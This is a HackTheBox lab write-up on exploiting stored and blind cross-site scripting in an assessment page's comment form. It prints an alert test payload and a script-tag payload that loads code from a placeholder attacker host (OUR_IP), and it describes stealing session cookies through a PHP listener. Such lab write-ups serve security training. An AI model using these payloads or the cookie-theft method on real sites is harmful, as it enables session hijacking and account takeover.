








HackTheBox Cross-Site Scripting (XSS) Skill Assessment Writeup

First I went to the assessment page via Burp Suite.

I noticed two input fields and test for injectable payload in both.
I used this simple payload to test if either are visible <script> alert(window.origin); </script>.

The search box didn't store anything and although the data was reflected, testing using Xssstrike showed that there wasn't a working common payload so I moved on. Next I tried it with the comment section.
The comment does not show up on the page, but I noticed in the url that there is an indexing number that increments by 1 every time I add a new comment, this means that these comments are being stored.
This can be a blind XSS, which I tested with Xsstrike using the POST request that I captured using Burp Suite.

The tool couldn’t find anything so i have to resort to manual discovery.
I tried to run Javascript scripts inside the comment input field with the following payload <script src=http://OUR_IP> </script> </p> and opened a PHP listener. I also appended each payload with the name of the field that I put them in, so I could tell which field was vulnerable


Boom, we found that the website field is injectable, time to use session hijacking to grab our cookie.
We might not know which cookie value belongs to which cookie header, so I used the following PHP script that retrieves the cookie via the c parameter, decodes them, and append the victim's IP address to each cookie, then outputs it in a file.

I then created the following file called sript.js, reopened the PHP listener, and inputted a line that makes the form call to the script file.

Just like that we have found the flag.
